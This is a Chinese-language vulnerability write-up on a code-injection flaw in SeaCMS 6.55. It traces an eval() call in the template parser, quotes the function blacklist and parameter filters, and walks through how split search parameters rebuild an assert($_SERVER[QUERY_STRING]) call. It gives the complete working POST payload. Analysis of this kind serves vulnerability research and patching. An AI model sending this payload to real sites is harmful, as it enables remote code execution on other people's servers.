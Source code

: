 # seacms 6.55 代码注入漏洞

通过sublime查找关键字eval。

![img](code-review-pic/1.png)

通过搜索，在include/main.class.php下的parseIf中发现了eval函数的身影。

![img](code-review-pic/2.png)

这里的逻辑主要是解析{if:}{end if}标签代码，把if语句的条件判断部分取出来然后用eval函数去执行，然后在3161-3163行找到了黑名单过滤方法

```php
   foreach($iar as $v){
          $iarok[] = str_replace(array('unlink','opendir','mysqli_','mysql_','socket_','curl_','base64_','putenv','popen(','phpinfo','pfsockopen','proc_','preg_','_GET','_POST','_COOKIE','_REQUEST','_SESSION','eval(','file_','passthru(','exec(','system(','shell_'), '@.@', $v);
      }
```

既然是通过黑名单过滤，就意味着过滤不完整。搜索那里调用这个parseIf()，发现了search.php

![img](code-review-pic/4.png)

这里用到了大量的str_place()函数来替换原始模板。

由于之前版本中也存在代码注入的问题，官方的修复方法是

```php
  global $dsql,$cfg_iscache,$mainClassObj,$page,$t1,$cfg_search_time,$searchtype,$searchword,$tid,$year,$letter,$area,$yuyan,$state,$ver,$order,$jq,$money,$cfg_basehost;
      
      $orderarr=array('id','idasc','time','timeasc','hit','hitasc','commend','commendasc','score','scoreasc');
   if(!(in_array($order,$orderarr))){$order='time';}
```

将order参数设置了一个白名单，这样就无法通过order 参数注入代码。

在search.php中针对传入的参数进行了xss过滤。这些参数也可以通过变量覆盖的方式传入，然后这些参数还用了removeXSS(),addslashes()函数去过滤，而且截取了前20个字节，即每个参数只能传入20个字节长度的限制。

```php
  $searchword = RemoveXSS(stripslashes($searchword));
  $searchword = addslashes(cn_substr($searchword,20));
  $searchword = trim($searchword);
  
  $jq = RemoveXSS(stripslashes($jq));
  $jq = addslashes(cn_substr($jq,20));
  
  $area = RemoveXSS(stripslashes($area));
  $area = addslashes(cn_substr($area,20));
  
  $year = RemoveXSS(stripslashes($year));
  $year = addslashes(cn_substr($year,20));
  
  $yuyan = RemoveXSS(stripslashes($yuyan));
  $yuyan = addslashes(cn_substr($yuyan,20));
  
  $letter = RemoveXSS(stripslashes($letter));
  $letter = addslashes(cn_substr($letter,20));
  
  $state = RemoveXSS(stripslashes($state));
  $state = addslashes(cn_substr($state,20));
  
  $ver = RemoveXSS(stripslashes($ver));
  $ver = addslashes(cn_substr($ver,20));
  
  $money = RemoveXSS(stripslashes($money));
  $money = addslashes(cn_substr($money,20));
  
  $order = RemoveXSS(stripslashes($order));
  $order = addslashes(cn_substr($order,20));
```

然而在刚才说的黑名单的情况下，甚至连最常用的assert都没有过滤。所以这里可以通过`_SERVER`绕过。

```php
  searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*
```

跟入之后，我们就看看如何构造的payload。

原来模板中的html代码如下:

```html
  <meta name="keywords" content="{seacms:searchword},海洋CMS" />
```

代码中的替换是这样的：

```php
  if(intval($searchtype)==5)
      {
          $tname = !empty($tid)?getTypeNameOnCache($tid):'全部';
          $jq = !empty($jq)?$jq:'全部';
          $area = !empty($area)?$area:'全部';
          $year = !empty($year)?$year:'全部';
          $yuyan = !empty($yuyan)?$yuyan:'全部';
          $letter = !empty($letter)?$letter:'全部';
          $state = !empty($state)?$state:'全部';
          $ver = !empty($ver)?$ver:'全部';
          $money = !empty($money)?$money:'全部';
          $content = str_replace("{searchpage:type}",$tid,$content);
          $content = str_replace("{searchpage:typename}",$tname ,$content);
          $content = str_replace("{searchpage:year}",$year,$content);
          $content = str_replace("{searchpage:area}",$area,$content);
          $content = str_replace("{searchpage:letter}",$letter,$content);
          $content = str_replace("{searchpage:lang}",$yuyan,$content);
          $content = str_replace("{searchpage:jq}",$jq,$content);
          if($state=='w'){$state2="完结";}elseif($state=='l'){$state2="连载中";}else{$state2="全部";}
          if($money=='m'){$money2="免费";}elseif($money=='s'){$money2="收费";}else{$money2="全部";}
          $content = str_replace("{searchpage:state}",$state2,$content);
          $content = str_replace("{searchpage:money}",$money2,$content);
          $content = str_replace("{searchpage:ver}",$ver,$content);
```

所以我们可以构造post字段如下：

```php
  searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*
```

原来的模版是：

![img](code-review-pic/6.png)

然后替换模版之后就是

```php
  <meta name="keywords" content="{if{searchpage:year},海洋CMS" />
  //替换year
  <meta name="keywords" content=":as{searchpage:area}},海洋CMS" />
  
  //替换area
  <meta name="keywords" content="s{searchpage:letter},海洋CMS" />
  
  //替换letter
  <meta name="keywords" content="ert{searchpage:lang},海洋CMS" />
  
  //替换lang
  <meta name="keywords" content="($_SE{searchpage:jq},海洋CMS" />
  
  //替换jq
  <meta name="keywords" content="RVER{searchpage:ver},海洋CMS" />
  
  //替换ver
  <meta name="keywords" content="[QUERY_STRING]));/*,海洋CMS" />
```

这样就拼好了后被以下代码解析出来的就是

```php
    if (strpos($content,'{subif:')=== false){
                  return $content;
                  }else{
                  $labelRule = buildregx("{subif:(.*?)}(.*?){end subif}","is");
                  $labelRule2="{elseif";
                  $labelRule3="{else}";
```

```php
  @eval("if(assert($_SERVER[QUERY_STRING]));/*xxxxx){\$ifFlag=true;}else{\$ifFlag=false;}");
```

所以最后poc

![img](code-review-pic/5.png)


